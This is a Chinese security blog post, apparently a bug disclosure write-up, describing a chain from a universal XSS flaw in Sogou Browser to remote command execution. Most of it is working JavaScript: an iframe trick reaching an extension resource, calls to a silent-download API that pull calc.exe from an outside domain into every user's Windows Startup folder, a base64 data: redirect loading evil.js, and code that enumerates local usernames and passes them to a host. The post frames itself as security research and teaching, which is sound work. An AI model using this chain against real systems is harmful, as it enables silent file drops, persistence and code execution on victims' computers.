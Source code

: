title: "[浏览器安全系列三] 搜狗浏览器从UXSS到远程命令执行"
date: 2016-10-06 10:57:48
tags: ["安全", "浏览器安全", "XSS"]

---

案例链接：http://www.wooyun.org/bugs/wooyun-2016-0213422

## 免责声明

本博客提供的部分文章思路可能带有攻击性，仅供安全研究与教学之用，风险自负!

### 0x00 首先是UXSS

具体见：https://bugs.chromium.org/p/chromium/issues/detail?id=569496

浏览器版本号：6.3.8.21279

### 0x01 既然可以UXSS，我们找个特权域

从漏洞 http://wooyun.org/bugs/wooyun-2010-0145023 我们可以知道搜狗浏览器的扩展有下载任意文件到任意位置的API！我们自己写一个恶意扩展，提交并通过审核的可能性基本为0。这个API这么好用，但又只能从：se-extension://域名下进行调用，好像很难构造吧。

```javascript
sogouExplorer.downloads.downloadSilently({
  url:"http://tmxk.org/img/r-c.png",
  filename:"dd.exe",
  path:"d:\",
  method:"GET"
})
```

我在想怎么利用上面的UXSS的时候，突发奇想的测试了一下，我们能不能打到se-extension://这个域名，于是进行一下测试。我找了一个搜狗浏览器安装时启用的默认扩展，找到其background.html的地址：`se-extension://ext238561744/background.html`。结果当然是没有那么容易，会提示如下的信息：

> Denying load of se-extension://ext238561744/background.html. Resources must be listed in the web_accessible_resources manifest key in order to be loaded by pages outside the extension.

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idldd42oj20hs0cstb1.jpg)

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idmtvo71j20ry0j0gou.jpg)

### 0x02 难道没法子？

我认真的读了两秒这个提示后，原来还允许开发者通过`web_accessible_resources`指定某些资源，从而实现在扩展外被访问！当然，我们就去试试运气去默认的扩展下找找看有没有吧。搜狗浏览器安装的插件在这个目录下：

```
C:\Users\Username\AppData\Roaming\SogouExplorer\Extension
```

grep一下，找到了一个插件，搜狗打假助手，`com.sogou.antiCrime`，其manifest.xml文件中有以下的内容：

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idowi21sj20n90h5465.jpg))

于是就把要打的域名地址换成了：

```
se-extension://ext238561744/jd/images/ac-logo.png
```

一开始我还觉得这是一个PNG图片，即使没有被拒绝访问，也应该用不了扩展的API吧。我本来是很怀疑能不能行的，正想放弃的时候，我还是觉得应该尝试一发。把PoC里的expolit.html里的f函数改一下，尝试下载一个文件到`c:\Users\`目录下。

备注：后来想想其实也对，因为图片在浏览器打开的时候浏览器用自动的使用img标签插入来显示图片。

```javascript
...

function f() {
  console.log("f()")
  if (++c1 == 2) {
    var x1 = x.contentWindow[0].frameElement.nextSibling;
    // x1.src = 'se-extension://ext238561744/background.html';         // Denied
    x1.src = 'se-extension://ext238561744/jd/images/ac-logo.png';
    try {
      while (x1.contentDocument) { ml(); }
    } catch(e) {
      x1.src = "javascript:if(location != 'about:blank') {console.log(location); sogouExplorer.downloads.downloadSilently({url:'http://127.0.0.1/test.js',filename:'test.js',path:'c:\\\\Users\\\\',method:'GET'});}"
    }
  }
}

...
```

![](http://ww1.sinaimg.cn/large/7184df6bgw1f8idw8oogbj20ru0ivgqz.jpg)

### 0x03 最终我们做到了！

上面下载好文件之后，我们可以直接使用伪协议来执行，在 http://wooyun.org/bugs/wooyun-2010-0177221 最新版依旧没有加个提示什么的。而且现在我们又扩展名`.js`了。直接可以执行。当然，我们也可以写到用户的启动目录中，至于怎么拿到用户名，这个 http://wooyun.org/bugs/wooyun-2010-0176436 的漏洞都公开了，然后好像什么修复工作都没有做。

```javascript
location.href="vbefile:/../../../../../../Users/test.js"
```

获取用户名的过程：用户访问open.html，跳转到data:域下
```javascript
window.location.href = "data:text/html;base64,PHNjcmlwdCBzcmM9J2h0dHA6Ly8xMjcuMC4wLjEvZXZpbC5qcyc+PC9zY3JpcHQ+"
```
其中base64解密后内容为：

```html
<script src='http://127.0.0.1/evil.js'></script>
```

evil.js在data域下执行，可以获取到用户名列表，然后再跳转到需要写calc.exe到启动目录的页面中，完成写入操作！

```javascript
function getUsers(data) {
  var users = data.match(/<script>addRow\("([^"]+)"/g) || [];
  var currentUser=[];
  for(var i = 0; i < users.length; i++) {
    var user = (users[i].match(/<script>addRow\("([^"]+)"/) || ["", ""])[1];
    if(["..", "All Users", "Default", "Default User", "Public", "UpdatusUser", "desktop.ini"].indexOf(user) == -1) {
      currentUser.push(user);
    }
  }
  
  console.log(currentUser);
  return currentUser;
}

window.external.extension("getRecommendSidebarExts", "file:///C:/Users/", function () {
  var data = JSON.parse(arguments[0]);
  if (data.success != true)
    return;

  location.href = 'http://127.0.0.1/exploit.html?users=' + getUsers(data.data);
});

```

写文件到启动目录下：
```javascript
function f() {
  console.log("f()")
  if (++c1 == 2) {
    var users = top.location.search.replace('?users=').split(',');

    var x1 = x.contentWindow[0].frameElement.nextSibling;
    // x1.src = 'se-extension://ext238561744/background.html';         // Denied
    x1.src = 'se-extension://ext238561744/jd/images/ac-logo.png';
    try {
      while (x1.contentDocument) { ml(); }
    } catch(e) {
      var users_str = '';
      for (var i = 0; i < users.length; ++i) {
        users_str += ('"' + users[i] + '"');
        if (i != users.length - 1)
          users_str += ',';
      }
      x1.src = "javascript:if(location != 'about:blank') { var users=[" + users_str + "]; for (var i = 0; i < users.length; ++i) sogouExplorer.downloads.downloadSilently({url:'http://a.zhchbin.xyz/calc.exe',filename:'calc.exe',path:'C:\\\\Users\\\\' + users[i] + '\\\\AppData\\\\Roaming\\\\Microsoft\\\\Windows\\\\Start Menu\\\\Programs\\\\Startup\\\\',method:'GET'});}"
    }
  }
}

```


录个用伪协议执行的GIF

![](http://ww4.sinaimg.cn/large/7184df6bgw1f8idxtyw70g20sg0j2do4.gif)
